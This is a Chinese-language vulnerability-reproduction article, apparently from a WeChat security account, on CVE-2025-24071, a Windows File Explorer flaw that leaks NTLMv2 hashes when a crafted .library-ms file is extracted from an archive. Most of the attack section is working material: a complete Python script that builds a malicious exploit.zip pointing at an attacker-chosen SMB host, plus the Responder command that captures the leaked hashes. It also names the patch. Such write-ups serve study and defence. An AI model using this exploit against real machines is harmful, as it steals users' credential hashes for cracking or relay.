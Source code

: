 #  【漏洞复现】CVE-2025-24071｜Windows 文件资源管理器欺骗漏洞   
原创 alicy  信安百科   2025-04-19 10:00  
  
            
  
0x00 前言  
  
  
Window  
s  
文件资源管理器（File Explorer）是Windows操作系统的核心组件，主要用于浏览、管理和操作本地及网络文件、文件夹、驱动器等资源。它提供直观的图形化界面，支持文件创建、复制、移动、删除、重命名等基础操作，同时集成网络共享访问、外部设备管理、文件搜索与筛选等高级功能，是多任务文件处理的核心工具‌。  
  
        
  
      
  
0x01 漏洞描述  
  
            
  
Windows资源管理器在解压包含特制 .library-ms文件的 RAR/ZIP 存档时，会自动解析该文件内嵌的恶意SMB路径（如 \\192.168.1.116\shared），触发隐式NTLM认证握手，导致用户NTLMv2哈希泄露。  
  
  
           
  
0x02 漏洞复现  
  
            
  
(1)准备工具  
```
Windows系统（被攻击）IP:192.168.2.11
Kali Linux（攻击）IP:192.168.2.12
CVE-2025-24071的POC文件a.py
Kali Linux中间人工具responder
```  
  
         
  
(2)复现过程   
  
1、设置windows的IP地址：192.168.2.11  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCWblqac9AJGPcTevwwsqPSvOf9c51MfdVGugzp2rrfIiaxUsGdLHm9lpg/640?wx_fmt=png "")  
  
               
  
2、设置kali的IP地址：192.168.2.12  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCWuH1dBJEbv6JGWpI4IcU0reficzenhS2eLHj99suWWCq8m7aUAMS66hg/640?wx_fmt=png "")  
  
            
  
3、在kali中打开responder中间人工具，终端执行命令：  
```
sudo responder -I eth0 -v
```  
  
                  
      
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCWUYXnUYiciaibSsmGlkHHZIYALzRXiaxt1uxQuWoVdquGwXIJ59Yuia5IGbQ/640?wx_fmt=png "")  
  
            
  
4、生成恶意压缩包，终端执行命令python a.py   
  
            
  
a.py内容如下：           
```
import os
import zipfile
def main():
    file_name = input("Enter your file name: ")
    ip_address = input("Enter IP (EX: 192.168.1.162): ")
    library_content = f"""<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\{ip_address}\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
"""
    library_file_name = f"{file_name}.library-ms"
    with open(library_file_name, "w", encoding="utf-8") as f:
        f.write(library_content)
    with zipfile.ZipFile("exploit.zip", mode="w", compression=zipfile.ZIP_DEFLATED) as zipf:
        zipf.write(library_file_name)
    if os.path.exists(library_file_name):
        os.remove(library_file_name)
    print("completed")
if __name__ == "__main__":
    main()

```  
  
                    
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCWRxL2F8XYTFxicAHh9BGIoy90iaIFjHx4v5NiaD4ic45BV6ppg6OgibmpMOg/640?wx_fmt=png "")  
  
                   
  
5、把生成的exploit.zip压缩包放到windows系统中解压。  
  
                   
      
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCW1sO7CR4VlaOhyPIFaQxq6xtXTJNpnvGFev27vgspg3Ty1uYt0VCRmQ/640?wx_fmt=png "")  
  
                    
  
6、kali系统中成功获取到windows的hash  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCW18whNLHbQ1PIt20FDCjTibk3o52fOAiazricg2uEeD3pyCibO73GwXN6zA/640?wx_fmt=png "")  
  
      
  
        
  
0x03 漏洞补丁  
  
  
编号：KB5053606  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCW4fAOl3r77iaC97zNqumeaib2Bnc7h80BRibe9yybU5eMXuTmsCdDk2gnQ/640?wx_fmt=png "")  
  
           
  
  
0x04 参考链接  
  
            
  
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24071  
  
            
  
            
  
            
  
推荐阅读：  
        
  
  
【漏洞复现】LimeSurvey XSS漏洞  
  
  
[【漏洞复现】CVE-2023-2640 Ubuntu本地权限提升](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484627&idx=1&sn=251a78ec1ad98d3e3b4400525a7b08bf&scene=21#wechat_redirect)  
  
  
  
[【漏洞复现】CVE-2023-38831 WinRAR代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484513&idx=1&sn=0fc004e592088c252a8a6ebfc33c3ea0&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
